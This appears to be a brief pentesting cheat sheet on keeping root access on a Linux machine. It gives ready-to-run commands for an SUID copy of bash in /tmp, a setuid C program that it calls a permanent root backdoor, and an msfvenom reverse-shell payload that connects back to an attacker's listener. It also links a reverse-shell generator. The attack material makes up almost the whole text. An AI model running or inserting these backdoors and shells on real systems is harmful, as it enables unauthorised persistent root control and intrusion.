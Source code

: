 # Spawning root shell

## Rootbash

In this method we create a copy of bash binary with root privileges and set SUID bit on, resulting in bash executable which when executed always run with a context of root user.

```text
cp /bin/bash /tmp/rootbash; chmod +s /tmp/rootbash
```

After creating a copy, we can run it in unprivileged terminal.

```text
/tmp/rootbash -p
```

## Executable

We create a simple C program which sets UID to 0 and runs `/bin/bash` . When compiled with root privileges, we can run it afterwards for permanent root backdoor.

```text
int main(){
    setuid(0);
    system("/bin/bash");
}
```

Compile it with root privileges.

```text
gcc -o <out_file> <source_code>
```

## Msfvenom executable

Create msfvenom reverse shell, then execute as a root with handler prepared on your attack machine.

```text
msfvenom -p linux/x86/shell_reverse_tcp LHOST=<lhost> LPORT=<lport> -f elf > shell
```

## Native reverse shells

This method needs more research.

```text
https://github.com/mthbernardes/rsg
```

